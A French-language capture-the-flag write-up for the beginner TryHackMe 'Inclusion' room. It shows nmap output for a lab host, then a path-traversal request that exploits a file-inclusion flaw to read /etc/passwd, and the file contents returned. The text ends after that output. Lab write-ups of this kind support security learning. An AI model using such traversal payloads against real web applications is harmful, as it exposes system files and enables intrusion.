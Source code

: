 
# Inclusion
> A beginner level LFI challenge

https://tryhackme.com/room/inclusion

Consiste a exploiter une faiblesse dans le code source d'une application web en détournant les fonctionnalitées d'inclusion de fichiers afin d'afficher les fichiers systèmes par ex.

## Nmap

```sh
# nmap -Pn -sC -sV -vv -oN nmap.txt $IP
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDH1X4Cqbxb5okQZBN3LvsIM8dYZOxeMWlReUkWWp+ICQ+6RjVs+bSbShCPac1Zc+lbnfHte1ZRtMW8a3OodW02+8PXcDbZlmMNMWUQmM76D2NZz28PDC7vouYqSQGt6J6gfsTq2YqCMVPU28uoJ/Qvg5C6hM3oFFDztV2BN7Pj+SgZ8a5htxv5wgn/PtWju2CJCQzPhLUrkAlrSb97/YQcvtjwXUGzKGHo62Cl6GINLm3nAVqJnNpm7aWcKowdfnEsrp+S41W5xV1gl4CyvE9usk5LfQwlPDF50FCgzsidA7mn4NbTukdTsNMAOTe0oAmjXAE0q/KCT076stYjRphX
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPvYRKovqOIYhJN1NV8r3T3YTa4N40XFZaWSQjuYyZIsuL6D8Xn9C4v925gPkS/wZyYBh7CRt6CcSbd2ekPByzo=
|   256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAd782HHJj9kHBKUMOUOgfWVBU9LdeGrlTDQ+Z0hD8yI
80/tcp open  http    syn-ack Werkzeug httpd 0.16.0 (Python 3.6.9)
| http-methods: 
|_  Supported Methods: HEAD OPTIONS GET
|_http-server-header: Werkzeug/0.16.0 Python/3.6.9
|_http-title: My blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```sh
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Werkzeug httpd 0.16.0 (Python 3.6.9)
```

Un serveur Linux Ubuntu qui expose un serveur web et ssh.

## LFI 

view-source:http://10.10.115.164/article?name=lfiattack

la page `article` utilise la valeur de l'argument `name` pour inclure le contenu du fichier correspondant dans la page.


### Récupération du contenu du fichier `/etc/passwd`

view-source:http://10.10.115.164/article?name=../../../../etc/passwd

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
```